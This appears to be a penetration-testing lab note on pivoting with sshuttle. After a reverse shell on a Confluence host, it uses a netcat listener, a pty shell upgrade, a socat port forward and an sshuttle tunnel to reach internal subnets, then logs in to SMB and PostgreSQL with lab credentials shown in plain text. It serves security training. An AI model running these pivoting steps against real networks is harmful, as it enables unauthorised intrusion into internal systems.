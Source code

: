 # Sshuttle

`sshuttle` is a tool that creates a VPN-like tunnel over SSH. It transparently routes traffic to specified subnets through an SSH connection. It requires `root` **privileges** **on the** **client (attacker)** machine and **Python 3** on the **SSH server** (pivot host).

> _Particularly useful when **classic dynamic port forwarding is cumbersome** to manage._

[Tunelling scenario](../ssh-tunelling.md) recap:

1. Got a reverse shell on `CONFLUENCE01` (`192.168.125.63`) via CVE-2022-26134.
2. We can SSH to `PGDATABASE01` (`10.4.125.215`) from `CONFLUENCE01`.
3. Our goal is to access the following internal networks: `10.4.125.0/24` and `172.16.125.0/24`.

{% tabs %}
{% tab title="1. Local Port Foward" %}
We can set up a port forward on `CONFLUENCE01`, forwarding local port `2222` to `PGDATABASE01:22` using `socat`. This makes `PGDATABASE01`’s SSH service available on `CONFLUENCE01:2222`.

{% code overflow="wrap" %}
```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ socat TCP-LISTEN:2222,fork TCP:10.4.125.215:22
```
{% endcode %}
{% endtab %}

{% tab title="2. Sshuttle" %}
Then we can use `sshuttle` from Kali to route desired subnets through the forwarded SSH connection. `-r` specifies the SSH connection string (`user@pivot_host:port`) followed by the list of subnets to route.

{% code overflow="wrap" %}
```bash
$ sshuttle -r database_admin@192.168.125.63:2222 10.4.125.0/24 172.16.125.0/24
...
database_admin@192.168.125.63's password: #sqlpass123
client_input_hostkeys: hostkeys_foreach failed for /home/x7331/.ssh/known_hosts: Permission denied
c : Connected to server.
```
{% endcode %}
{% endtab %}

{% tab title="3. Connect" %}
We can now test the pivoted access by connecting to an internal service (e.g., SMB on `HRSHARES`) **without any additional port forwards.**

{% code overflow="wrap" %}
```bash
$ smbclient -L //172.16.125.217/ -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk
        Users           Disk
        
$ psql -h 10.4.125.215 -p 5432 -U postgres
Password for user postgres: # D@t4basePassw0rd!
...
postgres=#
```
{% endcode %}
{% endtab %}
{% endtabs %}
